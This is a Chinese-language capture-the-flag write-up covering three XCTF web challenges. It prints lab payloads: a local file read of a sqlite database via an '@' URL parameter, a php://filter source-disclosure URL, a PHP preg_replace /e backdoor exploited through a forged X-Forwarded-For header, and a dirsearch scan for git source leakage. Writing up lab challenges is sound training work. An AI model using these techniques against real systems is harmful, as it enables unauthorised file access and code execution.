 ## 攻防世界Web进阶区

### 0x01. Cat

> * 难度系数 1.0
> * 题目来源： `XCTF 4th-WHCTF-2017 `
> * 题目描述： 抓住那只猫 
> * 题目场景： http://111.198.29.45:43180/ 具体参见攻防世界
> * 题目附件：无

#### 解题思路

1. 尝试提交空域名，返回Invalid Url, 提交题目给出的loli.club，什么也没有反应，但现在观察地址框 http://111.198.29.45:43180/index.php?url=loli.club ， 应该想到可以构造get请求

   ![image-20191026223653062](./Web高手进阶.assets/image-20191026223653062.png)

2. 通过尝试应该可以发现，URL后面加：

   >* 正常url, 好像没什么反应，（查看官方writeup，说返回ping结果）
   >* 非法URL(特殊符号)，返回`Invalid URL`
   >* URL编码超过%80，返回Django报错

![image-20191026225132475](./Web高手进阶.assets//image-20191026225132475.png)

3. 队报错代码进行代码审计，可以得到有关数据库的相关信息，获得数据库径`/opt/api/database.sqlite3`

   ![image-20191026230545229](Web%E9%AB%98%E6%89%8B%E8%BF%9B%E9%98%B6.assets/image-20191026230545229.png)

4. 使用@+文件名来读取本地文件，构造payload：

   ```
   http://111.198.29.45:43180/index.php?url=@/opt/api/database.sqlite3
   ```

   

5. 搜索关键词`ctf` 得到flag， `AWHCTF{yoooo_Such_A_G00D_@}`

![image-20191026231008869](Web%E9%AB%98%E6%89%8B%E8%BF%9B%E9%98%B6.assets/image-20191026231008869.png)

#### 附注

官方用`curl`构造payload

``` 
curl 'http://111.198.29.45:43180/index.php?url=@/opt/api/database.sqlite3' | xxd | grep -A 5 -B 5 WHCTF
```

### 0x02.  ics-05

> * 难度系数 1.0
> * 题目来源： ` XCTF 4th-CyberEarth `
> * 题目描述：  其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统 
> * 题目场景：  http://111.198.29.45:43227/  具体参见攻防世界
> * 题目附件：无

#### 解题思路

1. 题目提示是设备维护中心后门，所以打开页面后直接点击设备维护中心菜单进入

   ![image-20191027214724837](Web%E9%AB%98%E6%89%8B%E8%BF%9B%E9%98%B6.assets/image-20191027214724837.png)

2. 再点击`云平台设备维护中心`, 发现地址栏url变了，并且页面中出现index字样

   

   ![image-20191027214939713](Web%E9%AB%98%E6%89%8B%E8%BF%9B%E9%98%B6.assets/image-20191027214939713.png)

3. 利用`php://filter`伪协议读取页面源码

   ```url
   http://111.198.29.45:31639/index.php?page=php://filter/convert.base64-encode/resource=index.php
   ```

   

4. base64解码后，进行代码审计获取到有用信息

   ``` php
   //方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
   
   if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
   
       echo "<br >Welcome My Admin ! <br >";
   
       $pattern = $_GET[pat];
       $replacement = $_GET[rep];
       $subject = $_GET[sub];
   
       if (isset($pattern) && isset($replacement) && isset($subject)) {
           preg_replace($pattern, $replacement, $subject);
       }else{
           die();
       }
   
   }
   ```

   

5. 搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。此处明显考察的是preg_replace 函数使用 /e 模式，导致代码执行的问题。也就是说，pat值和sub值相同，rep的代码就会执行。这里的XFF要改成127.0.0.1，GET三个参数进来，这里调用了preg_replace函数。并且没有对pat进行过滤，所以可以传入"/e"触发漏洞,触发后replacement的语句是会得到执行的，首先执行一下phpinfo

### 0x03.  mfw 

> * 难度系数 1.0
> * 题目来源： **csaw-ctf-2016-quals ** 
> * 题目描述： 无
> * 题目场景： http://111.198.29.45:40481/ 具体参见攻防世界
> * 题目附件：无

#### 解题思路

1. 打开页面，查看源码，发现被注释掉的页面flag页面

```css
<div id="navbar" class="collapse navbar-collapse">
		          	<ul class="nav navbar-nav">
		            	<li class="active"><a href="?page=home">Home</a></li>
		            	<li ><a href="?page=about">About</a></li>
		            	<li ><a href="?page=contact">Contact</a></li>
						<!--<li ><a href="?page=flag">My secrets</a></li> -->
		          	</ul>
		        </div>
```

2. 然而构造参数 `http://111.198.29.45:40481/?page=flag`访问并没有什么发现
3. 随便看看，在About页面看到网站有用到Git, 想到Git源码泄露，用`dirsearch`扫一下后台,

```php
python3 dirsearch.py -u http://111.198.29.45:40481/ -e php
```

![image-20191117191635968](Web%E9%AB%98%E6%89%8B%E8%BF%9B%E9%98%B6.assets/image-20191117191635968.png)